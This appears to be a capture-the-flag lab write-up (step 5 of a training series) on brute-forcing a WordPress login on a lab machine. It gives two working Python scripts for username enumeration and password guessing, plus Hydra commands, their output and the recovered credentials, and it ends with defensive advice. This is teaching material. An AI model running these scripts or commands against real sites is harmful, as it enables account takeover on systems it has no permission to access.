



# **Step 5: Brute-force**
!!! note ""

## Brute-force WordPress Login

### Option 1 Python Scripts

- Test the form manually



>Error: Invalid username

- Run the script to get the correct username/usernames

>The script is designed to identify valid usernames on a WordPress site by attempting to log in with a known invalid password. It uses the requests library to send HTTP POST requests to the WordPress login page and checks the response to determine if the username is valid or not.

```python linenums="1"

import requests

# Define the target URL and headers
url = "http://192.168.1.226/wp-login.php"

# Read the dictionary file
with open("fsocity_sorted_unique.dic", "r") as file:
    words = [line.strip() for line in file]

# Function to perform the login attempt
def attempt_login(session, username, password):
    payload = {
        'log': username,
        'pwd': password,
        'wp-submit': 'Log In',
        'redirect_to': '/wp-admin/',
        'testcookie': '1'
    }
    response = session.post(url, data=payload)
    return response

# Start a session
session = requests.Session()

valid_usernames = []

# Iterate over each word to check for valid usernames
for word in words:
    try:
        response = attempt_login(session, word, 'invalidpassword')
        response_text = response.text

        if "Invalid username" in response_text:
            print(f"Invalid username: {word}")
        elif "The password you entered for the username" in response_text:
            print(f"Valid username found: {word}")
            valid_usernames.append(word)
        else:
            print(f"Unexpected response for username: {word}")
            print(response_text[:200])  # Print the first 200 characters of the response for debugging
    except Exception as e:
        print(f"Error processing username: {word}")
        print(f"Exception: {str(e)}")

# Save valid usernames to a file
with open("valid_usernames.txt", "w") as file:
    for username in valid_usernames:
        file.write(username + "\n")

print("Valid usernames saved to valid_usernames.txt")


```
>The script prints a message indicating that the valid usernames have been saved to the file.


#### Video usernames

<iframe width="560" height="315" src="https://www.youtube.com/embed/RWzt33r-1ao?si=wdK4rvxxzY5njBgy" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

- Inspecting the valid_usernames.txt

```bash linenums="1" hl_lines="2 3 4"
ubuntu@hcoco1:~$ cat valid_usernames.txt
ELLIOT
Elliot
elliot

```
> The usernames are: ELLIOT, Elliot, and elliot

- Run the script to get the correct password

>The script attempts to brute-force the WordPress login by trying each combination of known valid usernames and potential passwords. It uses the requests library to send HTTP POST requests and checks the response to determine if the login attempt was successful or not. If a successful login is found, the script prints the successful username and password combination and stops further attempts for that username


```python linenums="1" 
import requests  # Import the requests library for making HTTP requests

# Define the target URL for the WordPress login page
url = "http://192.168.1.226/wp-login.php"

# Define a list of known valid usernames
valid_usernames = ["ELLIOT", "Elliot", "elliot"]

# Read the dictionary file containing potential passwords
with open("fsocity_sorted_unique.dic", "r") as file:
    passwords = [line.strip() for line in file]  # Strip any leading/trailing whitespace from each line and store in a list

# Function to perform the login attempt
def attempt_login(session, username, password):
    # Create a dictionary to hold the form data for the login attempt
    payload = {
        'log': username,          # The username
        'pwd': password,          # The password
        'wp-submit': 'Log In',    # The value of the submit button
        'redirect_to': '/wp-admin/',  # The URL to redirect to after login
        'testcookie': '1'         # A value indicating whether cookies are enabled
    }
    # Send a POST request to the login URL with the form data
    response = session.post(url, data=payload)
    return response  # Return the response object

# Start a new session to maintain cookies and certain parameters across requests
session = requests.Session()

# Iterate over each valid username and password combination
for username in valid_usernames:
    for password in passwords:
        # Attempt to log in with the current username and password
        response = attempt_login(session, username, password)
        # Check if the response text does not contain the message indicating an incorrect password for the username
        if "The password you entered for the username" not in response.text:
            # If the message is not found, it means the login attempt was successful
            print(f"Success with username: {username} and password: {password}")
            break  # Exit the inner loop once a successful login is found
        else:
            # If the message is found, it means the password was incorrect for the given username
            print(f"Failed with username: {username} and password: {password}")


```

#### Video password

<iframe width="560" height="315" src="https://www.youtube.com/embed/7RNgscfL0PQ?si=bjMd26r6D-WCh3n4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>


>Success with username: elliot and password: ER28-0652

>username: **elliot** (usernames script)
>password: **ER28-0652** (password script)

- Testing the form with the hacked credentials






### Option 2 Hydra

#### Overview 
Brute-forcing a WordPress login involves two main steps: identifying valid usernames and then brute-forcing passwords for those usernames. Hydra, a powerful and versatile password-cracking tool, can be used to perform these tasks efficiently.

#### Identifying valid usernames

```python linenums="1" hl_lines="10 11 13" 
┌──(hcoco1㉿kali)-[~]
└─$ hydra -L fsocity_sorted_unique.dic -p invalidpassword 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=Invalid username"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-25 13:23:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://192.168.1.226:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=Invalid username
[STATUS] 3665.00 tries/min, 3665 tries in 00:01h, 7787 to do in 00:03h, 16 active
[80][http-post-form] host: 192.168.1.226   login: ELLIOT   password: invalidpassword
[80][http-post-form] host: 192.168.1.226   login: Elliot   password: invalidpassword
[STATUS] 3643.00 tries/min, 7286 tries in 00:02h, 4166 to do in 00:02h, 16 active
[80][http-post-form] host: 192.168.1.226   login: elliot   password: invalidpassword
[STATUS] 3646.67 tries/min, 10940 tries in 00:03h, 512 to do in 00:01h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-25 13:26:23

```
> The usernames are: ELLIOT, Elliot, and elliot

Explanation:

- `-L fsocity_sorted_unique.dic`: Specifies the dictionary file containing potential usernames.
- `-p invalidpassword`: Uses a known invalid password for all login attempts.
- `192.168.1.226`: Target IP address of the WordPress site.
- `http-post-form`: Specifies that the attack is on an HTTP form.
    - `/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1`: Form parameters.
    - `F=Invalid username`: Indicates failure if "Invalid username" is found in the response.


#### Brute Force Passwords

```python linenums="1" hl_lines="10 11 13" 
┌──(hcoco1㉿kali)-[~]
└─$ hydra -L valid_usernames.txt -P fsocity_sorted_unique.dic 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-25 13:31:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 34356 login tries (l:3/p:11452), ~2148 tries per task
[DATA] attacking http-post-form://192.168.1.226:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[STATUS] 3492.00 tries/min, 3492 tries in 00:01h, 30864 to do in 00:09h, 16 active
[80][http-post-form] host: 192.168.1.226   login: ELLIOT   password: ER28-0652
[80][http-post-form] host: 192.168.1.226   login: Elliot   password: ER28-0652
[STATUS] 8455.00 tries/min, 25365 tries in 00:03h, 8991 to do in 00:02h, 16 active
[80][http-post-form] host: 192.168.1.226   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-25 13:35:22

```

>Valid Usernames: ELLIOT, Elliot, elliot
>Valid Password: ER28-0652

Explanation:

- Hydra Command: Initiates Hydra with specified parameters.
- Username List (-L): Uses valid_usernames.txt to get a list of usernames.
- Password List (-P): Uses fsocity_sorted_unique.dic to get a list of passwords.
- Target IP: Specifies the target IP address (192.168.1.226).
- HTTP POST Form: Specifies the details of the HTTP POST request.
- Form Path: /wp-login.php.
    - Form Data: Includes placeholders for usernames (^USER^) and passwords (^PASS^).
    - Success Condition: A successful login is indicated by a "Location" header in the response.


### Security
Recommendations for a WordPress Site:

- Enforce Strong Password Policies: Require users to create strong passwords that are not easily guessable.
- Limit Login Attempts: Implement a mechanism to limit login attempts to prevent brute force attacks.
- Use Two-Factor Authentication (2FA): Add an extra layer of security by requiring a second factor for authentication.
- Regularly Update WordPress and Plugins: Keep the WordPress core, themes, and plugins up-to-date to protect against known vulnerabilities.
- Monitor Login Attempts: Regularly monitor login attempts and block IP addresses with suspicious activity.


<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-4/challenge_4/" class="md-button md-button--primary">Previous: Step 4</a>
<a href="/Career-Simulation-4/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-4/challenge_6/" class="md-button md-button--primary">Next: Step 6</a>
</div>